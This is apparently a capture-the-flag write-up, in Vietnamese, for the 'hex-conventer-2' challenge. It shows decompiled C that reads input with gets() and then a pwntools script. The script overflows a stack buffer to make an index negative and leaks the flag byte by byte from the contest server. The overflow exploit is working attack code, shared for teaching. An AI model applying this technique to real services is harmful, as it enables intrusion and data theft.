 # hex-conventer-2
## Source code
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  FILE *v3; // rax
  char s[64]; // [rsp+0h] [rbp-60h] BYREF
  char v6[28]; // [rsp+40h] [rbp-20h] BYREF
  int v7; // [rsp+5Ch] [rbp-4h]

  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
  v7 = 0;
  puts("input text to convert to hex: ");
  gets(v6);
  v3 = fopen("flag.txt", "r");
  fgets(s, 64, v3);
  while ( 1 )
  {
    printf("%02X", (unsigned __int8)v6[v7]);
    if ( v7 <= 0 )
      break;
    --v7;
  }
  putchar(10);
  return 0;
}
```
## Phân tích
- Source khá giống bài `hex-conventer-1`, tuy nhiên chương trình đã kiểm tra giá trị biến `v7`
- Tuy nhiên lỗi ở đây là nó thực hiện `printf` trước và sau đó mới kiểm tra, như vậy giống bài trước nhưng ta sẽ cần `remote` vào netcat lấy từng byte
![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/2f73f1a6-1abc-4732-90c1-ba3932f75035)

## Script
```python
#!/usr/bin/python3

from pwn import *

exe = ELF('chal', checksec=False)

context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
                b*0x00000000004011fb

                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('amt.rs', 31631)
else:
        p = process(exe.path)

# GDB()
flag = ""
for i in range(0x40, 1, -1):
        p = remote('amt.rs', 31631)
        # p = process(exe.path)
        
        payload = b"a" * 28 + p32(0xffffffff-i+1)

        sla(b"hex:", payload)
        p.recvline()
        flag += p.recvline(keepends=False).decode()
        info("flag " + flag)


p.interactive()
```